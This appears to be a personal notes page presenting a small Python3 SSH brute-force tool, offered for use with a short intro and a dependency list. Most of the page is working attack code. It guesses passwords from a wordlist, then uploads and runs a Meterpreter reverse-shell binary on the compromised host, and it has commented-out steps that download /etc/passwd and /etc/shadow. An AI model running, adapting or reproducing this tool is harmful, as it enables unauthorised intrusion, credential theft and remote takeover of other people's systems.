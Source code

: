 
---
layout: memory
title: SSHBruteForcer
---

Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access. 

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
# Download   
   
   #filepath = "/etc/passwd"
   #localpath = "/home/user/passwd.txt"
   #sftp.get(filepath,localpath)
   
   #filepath = "/etc/shadow"
   #localpath = "/home/user/shadow.txt"
   #sftp.get(filepath,localpath)

# Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
   	try:  
   	   stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
   	   print(stdout.read().decode())
   	   break
   	except KeyboardInterupt:
   	    print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))

```

*Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newwer versions of the dependencies should work but I haven't testet them:

```
paramiko==2.7.2
pwncat==0.4.3
pwntools==4.6.0
```

